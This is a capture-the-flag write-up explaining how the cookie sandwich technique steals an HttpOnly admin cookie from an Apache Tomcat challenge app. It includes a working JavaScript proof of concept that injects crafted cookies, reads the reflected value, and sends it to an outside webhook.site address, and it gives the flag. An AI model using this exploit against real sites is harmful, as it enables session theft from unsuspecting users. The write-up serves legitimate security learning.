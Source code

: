 ## TLDR

The challenge is about using the cookie sandwich technique from [Zakhar Fedotkin](https://portswigger.net/research/stealing-httponly-cookies-with-the-cookie-sandwich-technique) to steal HttpOnly cookies. This is possible because the application is running on Apache Tomcat, which falls back to RFC2109 parsing if the cookie starts with `$Version=1`.

![alt text](image.png)

To exfiltrate the admin cookie, we need to find an endpoint that reflects cookie values. There are multiple XSSs in the challenge but the solution is to use the `language` cookie which is reflected in the html lang attribute.

## PoC

```html
<script>
async function sandwich(target, cookie) {
    const iframe = document.createElement('iframe');

    const url = new URL(target);
    const domain = url.hostname;
    const path = url.pathname;

    iframe.src = target;
    iframe.style.display = 'none';
    document.body.appendChild(iframe);
    iframe.onload = async () => {
        document.cookie = `$Version=1; domain=${domain}; path=${path};`;
        document.cookie = `${cookie}="FOO; domain=${domain}; path=${path};`;
        document.cookie = `dummy=qaz"; domain=${domain}; path=/;`;
        try {
            const response = await fetch(`${target}`, {
                credentials: 'include',
            });
            const responseData = await response.text();
            const regex = /<html[^>]*>/;
            // const regex = /<html lang="([^"]*)">/;
            const match = responseData.match(regex);

            window.location.href = 'http://webhook.site/8aa41a0a-ce2d-46e5-83a8-9d1616e33f03/' + btoa(match[0]);

        } catch (error) {
        }
    };
}

setTimeout(sandwich, 100, 'http://127.0.0.1:8080/index.jsp', 'language');
</script>
```

Flag: DUCTF{1_th0ught_y0u_c0uldnt_st34l_th3m}


Solved by: benkyou